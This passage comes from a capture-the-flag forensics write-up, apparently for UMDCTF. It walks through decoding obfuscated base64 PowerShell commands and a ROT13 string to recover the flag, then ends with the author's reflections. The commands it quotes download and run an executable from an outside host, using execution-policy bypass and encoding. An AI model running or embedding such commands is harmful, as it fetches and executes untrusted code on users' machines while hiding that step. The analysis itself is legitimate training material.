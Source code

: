and

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7AA==
```
Decoding the above base64 string yields `Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe;`

Afterwards, I found another segment. 
```
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```
Decode base64: 
`Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe; Start-Process explore.exe; ='gurl_jnag_gurve'`

`gurl_jnag_gurve` looks quite similar to a flag :)), I used ChatGPT and found out it's ROT13 encoded :))), guessing until death!!!

![](/images/writeups-forensics-umdctf/image-24.png)

--> `they_want_their`

Here comes the **one wrong step, one mile astray** moment. From those code snippets and the mentioned command, I only interpreted the PowerShell command executing `explore.exe` in connection with the challenge name `Malware Chall Disclaimer`. As a result, I misunderstood that I had to dive into researching that malware to trace it down :)), wasting two hours trying to trace and reverse-engineer that `explore.exe` while also attempting to decipher it before reaching the solution.

![](/images/writeups-forensics-umdctf/image.png)

I should have checked the website itself to see if there was anything significant.

![](/images/writeups-forensics-umdctf/image-25.png)

Thank goodness! If I hadn't discovered this by accident before the competition was over, I might have given up on forensics altogether.

![](/images/writeups-forensics-umdctf/image-26.png)

**UMDCTF{1997_called_they_want_their_malware_back_bozo}**

## Conclusion

In this competition, I think the forensics challenges were not too difficult overall (even the newbie-level could be accessed by around 7 out of 8 tasks). However, some tasks were overly reliant on guessing, which made it a bit frustrating for forensic enthusiasts.

Thanks to `Hwi#9932` for helping me identify some misconceptions in the `Telekinetic Warfare` challenge and to everyone in `BKSEC` for constantly encouraging me to improve my skills in forensic challenges digital.